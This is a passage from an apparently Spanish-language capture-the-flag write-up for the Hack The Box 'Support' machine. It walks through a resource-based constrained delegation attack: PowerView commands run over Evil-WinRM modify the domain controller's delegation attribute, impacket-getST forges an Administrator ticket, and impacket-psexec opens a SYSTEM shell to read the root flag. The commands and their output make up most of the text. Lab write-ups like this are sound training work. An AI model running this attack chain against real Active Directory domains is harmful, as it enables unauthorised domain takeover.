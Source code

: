 ```bash
usnchanged             : 90265
dnshostname            : Nuevo.support.htb
```

- Vamos a seguir con los pasos que nos dan.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid = Get-DomainComputer Nuevo -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

- Ahora usaremos impacket para obtener un ticket suplantando al Administrator.

```bash
➜  content impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.129.245.29 support.htb/Nuevo$:123456
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

- Ahora vamos a exportar la variable de entorno con el nombre del ticket.

```bash
➜  content export KRB5CCNAME=Administrator.ccache
```

- Ahora ya nos podemos conectar y leer la `flag`.

```bash
➜  content impacket-psexec -k dc.support.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file GoDYfrro.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service tmuw on dc.support.htb.....
[*] Starting service tmuw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
7088702023ddab61e77faaf6ac6fcbc2
```
